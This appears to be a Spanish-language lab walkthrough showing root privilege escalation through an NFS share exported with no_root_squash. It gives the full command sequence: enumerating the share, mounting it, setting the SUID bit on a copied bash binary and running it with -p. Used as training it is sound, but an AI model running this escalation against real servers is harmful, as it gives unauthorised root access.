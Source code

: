 # Escalado de privilegio explotando ***no_root_squash***.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***ubu_srv_01***

***REQUIERE HABER REALIZADO 4. Laboratorio 04-D: Enumeración NFS. Ejercicio - Configuración de un share de NFS***.


## Convertirse en root por una NFS mal configurada.

Como debemos tener claro, un uso de NFS no seguro puede conducir a situaciones no deseadas. Después de aprender a enumerar las shares NFS (tal y como se vió en el ***lab-04-D***) se determina que existe una share que tiene habilitada la configuración ***no_root_squash***. Este parámetro permite al usuario ***root*** de la máquina cliente acceder al share. Como ya sabemos, trabajar con un usuario ***root*** es una mala idea.

En la máquina ***Kali*** ejecutamos el siguiente comando.
```
nmap -sV -p 111 --script=nfs-showmount 192.168.20.60
```

Cuya salida demuestra que se está compartiendo el directorio ***/datos*** en dicha máquina. 

Esta tecnica se emplea cuando se necesita escalar privilegios, es decir, el actor de la amenaza ya posee una credencial de usuario en la máquina víctima. La credencial puede haber sido capturada en un ataque previo o, se trata de un ***insider***. En cualquier caso se desea ser ***root*** en la máquina NFS.

Para hacer una simulación real, vamos a crear un usuario nuevo, sin permisos de ***root***, en la máquina ***ubu_srv_01***, por medio del siguiente comando.
```
sudo useradd luke
``` 

Y por contraseña ponemos ***UsaLaLFuerza***, por medio de este comando.
```
sudo passwd luke
```

Iniciamos sesión con el nuevo usuario. Primero cerramos la sesión del usuario ***antonio***.
```
logout
```

E iniciamos sesión con ***luke***/***UsaLaFuerza***. Compromamos quien somos.
```
whoami
```

La salida mostrará que es un usuario convencional (***luke***) que no es ***root*** en esa máquina.

Ahora, el usuario ***luke*** va a hacer algo que parece inocuo. Copia el archivo de la shell a la carpeta ***/datos***, para la cual tiene permisos de escritura.
```
cp /bin/bash /datos
```

Si listamos la carpeta veremos que el propietario es ***luke***
```
ls -l /datos
```

![propietario de bash](../img/lab-04-D/202209101503.png)


Ahora en la maquina ***Kali***.

El siguiente paso es intentar montar ese share.

Creamos una carpeta de trabajo temporal.
```
mkdir -p /tmp/share
```

Montamos el share.
```
sudo mount -t nfs 192.168.20.60:/datos /tmp/share
```

Comprobamos que se ha montado el share.
```
df -k
```

El resultado debe ser similar al mostrado en la siguiente imagen.

![NFS Share mounted](../img/lab-30-D/202209101823.png)

A través del punto de montaje, podemos ver el archivo ***bash*** que el usuario ***luke*** copió.
```
cd /tmp/share

ls -l
```

Para que el exploit funcione, debemos asignar el permiso ***SUID*** al archivo copiado (***bash***). Al haber montado el share con la opción ***no_root_squash*** habilitata, nos da acceso de administrador a los archivos que allí se encuentren.

Vamos a cambiar el ***propietario*** y asignar el permiso ***SUID*** a ***bash***.
```
sudo chown root.root bash
```

```
sudo chmod +s bash

ls -l bash
```

En la imagen podemos ver el resultado.

![SUID](../img/lab-30-D/202209102213.png)

Un archivo con el permiso ***SUID*** (bit s), puede ser ejecutado por cualquier usuario, pero siempre se ejecuta con el permiso del propietario, que es ***root***.

En la máquina ***ubu_srv_01***, donde hemos iniciado la sesión con el usuario ***luke***, ejecutamos el comando.
Nota: ***-p*** ejecuta la shell en modo privilegiado, de no ponerlo, SUID no tendrá efecto.
```
/datos/bash -p
```

Ahora solo queda preguntar al sistema quién somos.
```
whoami
```

Hemos escalado al ***root*** sin necesidad de conocer la contraseña.

![bash -p](../img/lab-30-D/202209102221.png)

Ya solo queda desmontar el share. En la máquina ***Kali***.
```
cd ~

sudo umount /tmp/share
```

